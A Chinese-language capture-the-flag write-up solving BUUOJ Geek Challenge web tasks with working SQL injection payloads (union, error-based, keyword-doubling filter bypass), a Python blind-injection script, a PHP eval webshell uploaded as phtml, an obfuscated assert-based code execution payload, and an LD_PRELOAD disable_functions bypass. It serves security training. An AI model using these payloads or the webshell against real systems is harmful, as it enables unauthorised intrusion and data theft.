









## 极客大挑战web

### LoveSQL

fuzz了一下发现过滤了空格，单引号报错。如果查询数据为空，返回密码错误

常规操作

<!--more-->

1. #### order by判断字段，字段为3



`?username='union+select+1,group_concat(username,',',password),3+from+l0ve1ysq1+limit+0,1+%23&password=123 `


2. #### union确定回显，回显位置为2，3

`?username='union+select+1,2,3+%23&password=123`


3. #### 查数据库

`?username='union+select+1,database(),3+%23&password=123`



4. #### 查表

`?username='union+select+1,group_concat(table_name),3+from+information_schema.tables+where+table_schema='geek'+%23&password=123`


l0ve1ysq1、geekuser

5. #### 查列名

`?username='union+select+1,group_concat(column_name),3+from+information_schema.columns+where+table_schema='geek'+and+table_name='l0ve1ysq1'+%23&password=123`


`?username='union+select+1,group_concat(column_name),3+from+information_schema.columns+where+table_schema='geek'+and+table_name='geekuser'+%23&password=123`


6. #### 查数据

`?username='union+select+1,group_concat(username,',',password),3+from+geekuser+limit+0,1+%23&password=123`

geekuser只有一个admin


l0ve1ysq1表中发现了flag

`?username='union+select+1,group_concat(username,',',password),3+from+l0ve1ysq1+limit+0,1+%23&password=123` 


### BabySQL

fuzzing一下，将union,select,and,or,where,from删除

此时可以selselectect将select删除之后就变成了sel ~~select~~ ect

因为和上面的一样，直接查询数据库

1. #### 查数据库

`?username='uniunionon+selselectect+1,database(),3--+&password=123`

数据库名还是geek

2. #### 查询表

```
?username='uniunionon+selselectect+1,group_concat(table_name),3+frfromom+infoorrmation_schema.tables+wwherehere+table_schema='geek'--+&password=123
```

b4bsql,geekuser

3. #### 查列名

`?username='uniunionon+selselectect+1,group_concat(column_name),3+frfromom+infoorrmation_schema.columns+wwherehere+table_schema='geek'+anandd+table_name='b4bsql'--+&password=123`

列名还是id,username,password

4. #### 查询数据

`?username='uniunionon+selselectect+1,group_concat(username,passwoorrd),3+frfromom+b4bsql--+&password=123`


成功拿到flag

### Http

打开BP，开启拦截，查看site map发现有一个secret.php


访问即可

根据提示修改http头

```
GET /Secret.php HTTP/1.1
Host: node3.buuoj.cn:27400
Accept-Encoding: gzip, deflate
Accept: */*
X-Forwarded-for:127.0.0.1
Accept-Language: en
Referer:https://www.Sycsecret.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Syclover/20100101 Firefox/72.0
Connection: close

```

### BuyFlag

点进去有一个payflag界面,

根据提示，

```
If you want to buy the FLAG:
You must be a student from CUIT!!!
You must be answer the correct password!!! 

Only Cuit's students can buy the FLAG
```

页面最后有一段注释

```
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
```

这一段注释是对输入的`password`作比较，输入的是404，且能绕过`is_numeric()`函数。

在数字之后面加一个字符就变成了字符串类型，即可绕过。最后面的是弱类型的判断，加了字符之后还是符合的


抓包发现有cookie, user=0，改成=1，变成了

```
you are Cuiter
Please input your password!!
```

传入数据`password=404a&money=999999999`，他说数据太长，只能传入八位。

之前在南邮的平台上做过一道pass check题目PHP版本是5.3，传入数组即可绕过

`password=404a&money[]=`

### Upload

上传PHP一句话被过滤



换成图片后缀jpg进行%00截断，还是被过滤



尝试php2,php3,php5都被过滤






只有phtml没有被过滤



内容不能出现`<?`可以换成js的写法


```
<script language="php">
eval($_POST['cmd']);
</script>
```

再上传提示必须是图片，添加gif文件头`GIF89a`


使用蚁剑，菜刀连接，找到flag


### HardSQL

fuzz测试

`AND,BINARY,BY,CHAR,CHAR_LENGTH,CHARACTER,CHARACTER_LENGTH,CLASSIFIER,DROP,HAVING,INSERT,INTO,MODIFIES,NCHAR,NULLIF,SPECIFIC,SPECIFICTYPE,SUBSTRING,SUBSTRING_REGEX,UNION,VARBINARY,VARCHAR,+,/,!,*,||,&&,<,>,ascii,%20,%09`被过滤

输入错误还会报出sql语句错误，考虑报错注入

1. #### 查数据库

   `?username=admin'or(updatexml(0,concat(0,(select(database())),0))%23`还是geek

2. #### 查表

   `?username=admin'or(updatexml(0,concat(0,(select(concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))),0))%23`

   H4rDsq1

3. #### 查列名（应该还是只有id,usname,password）

4. #### 查数据

   `?username=admin'or(updatexml(0,concat(0,(select(concat(password))from(H4rDsq1))),0))%23&password=123`

   `?username=admin'or(updatexml(0,concat(0,(select(reverse(password))from(H4rDsq1))),0))%23&password=123`
   
   因为flag超出了32个字符，floor报错注入能显示64个字符，但是by被过滤（本菜鸡找不到解决的办法）。 字符截取函数substr,mid被过滤，使用reverse函数。


### FinalSQL

fuzz之后发现被过滤的关键字有


题目提示有盲注，还给了一个含有ID的界面。注入点再id处，不再是之前的输入框


根据括号内的数字不同，返回的界面不同，和没被过滤的关键字可以使用盲注

编写盲注脚本

```
# -*- coding: utf-8 -*-
import requests

def get(payload):
    url = 'http://f408e803-8b3e-4c4e-883e-3fb61e29303f.node3.buuoj.cn/search.php?id=1=('+payload+')'
    html = requests.get(url)
    # print(html)
    return html

def binsea(s_payload,len=999):
    result = ''
    x=1
    while x <= len :
        error = 0
        left = 0
        right = 126
        while left <= right:
            mid = (left + right) / 2
            payload = "ascii(substr((%s),%d,1))>%d" % (s_payload,x, mid)

            res = get(payload)
            if res.status_code == 404 or res.status_code == 429:
                x=x-1
                error = 1
                break
            html=res.text
            # print('*-*-*-*-*-*', mid)
            if 'others' in html:
                left = mid +1
            else:
                right = mid -1
        mid = int((left + right + 1) / 2)
        if mid == 0 :
            break
        if error == 0 :
            result += chr(mid)
            print(result)
        x=x+1
    return result

def get_database():
    s_payload='database()'
    database = binsea(s_payload)
    print(database)

def get_tabls(db):
    s_payload = 'select(group_concat(table_name))from(information_schema.tables)where(table_schema=\''+db+'\')'
    tables=binsea(s_payload)

def get_columns(table):
    s_payload = 'select(group_concat(column_name))from(information_schema.columns)where(table_name=\''+table+'\')'
    columns=binsea(s_payload)

def get_data(columns,table):
    s_payload='select(group_concat('+columns+'))from('+table+')'
    password=binsea(s_payload)


# get_database()

# get_tabls('geek') #F1naI1y,Flaaaaag
#
# get_columns('F1naI1y') # id,username,password
# get_columns('Flaaaaag') # id,fl4gawsl

# get_data('fl4gawsl','Flaaaaag')
get_data('id,username,password','F1naI1y')
```

跑出来有两个表F1naI1y,Flaaaaag

F1naI1y表还是只有id,username,password

Flaaaaag表包括id,fl4gawsl

### RCE ME

打开题目有源码

```
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){  
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

 传入一个code参数，长度不能大于40，不能包含大小写字母和数字

可以使用取反或者异或拼凑函数

```
?code=$_=(~?>);$$_{%27__%27}($$_{%27_%27});&_=phpinfo()&__=assert
```

```
%A0%AF%B0%AC%AB是_GET的取反的值，$$_{%27__%27}($$_{%27_%27})`就相当于 $_GET{'__'}($_GET{'_'})   联合起来就是assert(phpinfo())
```


关于assert函数**

PHP 5 assert ( [mixed](https://www.php.net/manual/zh/language.pseudo-types.php#language.types.mixed) `$assertion` [, string `$description` ] ) : bool

PHP 7 assert ( [mixed](https://www.php.net/manual/zh/language.pseudo-types.php#language.types.mixed) `$assertion` [, Throwable `$exception` ] ) : bool

**assert()** 会检查指定的 `assertion` 并在结果为 **`FALSE`** 时采取适当的行动。

如果 `assertion` 是字符串，它将会被 **assert()** 当做 PHP 代码来执行。 `assertion` 是字符串的优势是当禁用断言时它的开销会更小，并且在断言失败时消息会包含 `assertion` 表达式。 这意味着如果你传入了 boolean 的条件作为 `assertion`，这个条件将不会显示为断言函数的参数；在调用你定义的 [assert_options()](https://www.php.net/manual/zh/function.assert-options.php) 处理函数时，条件会转换为字符串，而布尔值 **`FALSE`** 会被转换成空字符串。



先查看phpinfo()



禁用了很多执行系统命令的函数


```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,dl
```

扫描当前目录 

post 数据： `_=print_r(scandir(%27./%27))&__=assert`

```
Array (    [0] => .    [1] => ..    [2] => index.php )
```

扫描根目录

post数据：`_=print_r(scandir(%27/%27))&__=assert`

```
Array ( [0] => . [1] => .. [2] => .dockerenv [3] => bin [4] => boot [5] => dev [6] => etc [7] => flag [8] => home [9] => lib [10] => lib64 [11] => media [12] => mnt [13] => opt [14] => proc [15] => readflag [16] => root [17] => run [18] => sbin [19] => srv [20] => sys [21] => tmp [22] => usr [23] => var ) 
```

发现有一个flag文件和一个readflag文件。尝试读取内容

读取flag中的文件是空的；

post数据：`_=var_dump(file_get_contents(%27/flag%27))&__=assert`

post数据：`_=var_dump(file_get_contents(%27/readflag%27))&__=assert`

```
string(8856) "ELF>�@�@8 @@@@��888  � � � x� � � � ��TTTDDP�td���<<Q�tdR�td� � � ((/lib64/ld-linux-x86-64.so.2GNU GNU�íf­CI�`[Xa���V�Q ?m 8| � )"!libc.so.6setuidsetegidsystemseteuid__cxa_finalizesetgid__libc_start_main_ITM_deregisterTMCloneTable__gmon_start___Jv_RegisterClasses_ITM_registerTMCloneTableGLIBC_2.2.5ui �� �� `H H � � � � � �     ( 0  8 H��H�� H��t��H����5� �%� @�%� h������%� h������%� h������%� h�����%� h�����%b f�1�I��^H��H���PTL��H� sH�=� �DH�=y H�y UH)�H��H��vH�� H��t ]��fD]�@f.�H�=9 H�52 UH)�H��H��H��H��?H�H��tH�� H��t]��f�]�@f.��=� u'H�=� UH��tH�=� � ����H���]�� ��@f.�H�=A H�?u�^���fDH�) H��t�UH����]�@���UH����������~������_������@���H�=�������]�f.�f�AWAVA��AUATL�%� UH�-� SI��I��L)�H��H������H��t 1��L��L��D��A��H��H9�u�H��[]A\A]A^A_Ðf.���H��H���/bin/cat /flag;8l�������������T����l��������,zRx�����+zRx�$����`FJw�?;*3$"D���\@���TA�C OD|����eB�B�E �B(�H0�H8�M@r8A0A(B BBB������` �� � ���o��� � x��� ���o���o����o���o����o� FVfv�H GCC: (Debian 6.3.0-18+deb9u1) 6.3.0 201705168Tt����� � �0 ����� � � � � �  @ P ��� �.`DP S� z��� ������ �� ���� �� �� ��  �0 � @ LP *�Sg�@ � �H ���0e�X ��+�P ��T�� P  -A"�]rcrtstuff.c__JCR_LIST__deregister_tm_clones__do_global_dtors_auxcompleted.6972__do_global_dtors_aux_fini_array_entryframe_dummy__frame_dummy_init_array_entryreadflag.c__FRAME_END____JCR_END____init_array_end_DYNAMIC__init_array_start__GNU_EH_FRAME_HDR_GLOBAL_OFFSET_TABLE___libc_csu_fini_ITM_deregisterTMCloneTable_edatasystem@@GLIBC_2.2.5__libc_start_main@@GLIBC_2.2.5__data_start__gmon_start____dso_handle_IO_stdin_used__libc_csu_init__bss_startmainsetgid@@GLIBC_2.2.5_Jv_RegisterClasses__TMC_END___ITM_registerTMCloneTablesetuid@@GLIBC_2.2.5__cxa_finalize@@GLIBC_2.2.5setegid@@GLIBC_2.2.5seteuid@@GLIBC_2.2.5.symtab.strtab.shstrtab.interp.note.ABI-tag.note.gnu.build-id.gnu.hash.dynsym.dynstr.gnu.version.gnu.version_r.rela.dyn.rela.plt.init.plt.got.text.fini.rodata.eh_frame_hdr.eh_frame.init_array.fini_array.jcr.dynamic.got.plt.data.bss.comment88#TT 1tt$D���o��N�� V���^���o��k���o�� z����B��x��00`��������� ������<� �� � �� � �� � �� � ��� �0� @�@ @�P P0P-��/ @��" 
```

是linux可执文件

连接蚁剑 payload :

```
?code=$_=(~%A0%B8%BA%AB);$$_{%27__%27}($$_{%27_%27});&__=assert&_=eval($_POST['cmd'])
```

应该是要绕过disable_function,从而执行readflag，项目地址

```
https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD
```

只有/tmp有文件修改权限，上传`bypass_disablefunc.php、bypass_disablefunc_x64.so、bypass_disablefunc_x86.so`到/tmp下

最后payload:

```
?code=$_=(~%A0%B8%BA%AB);$$_{%27__%27}($$_{%27_%27});&__=assert&_=include "/tmp/bypass_disablefunc.php"&cmd=/readflag&outpath=/tmp/xx&sopath=/tmp/bypass_disablefunc_x64.so
```

输出为

```
 example: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so

cmdline: /readflag > /tmp/xx 2>&1

output:
flag{6e16639a-9eca-45b8-a972-e61da4146393}
```

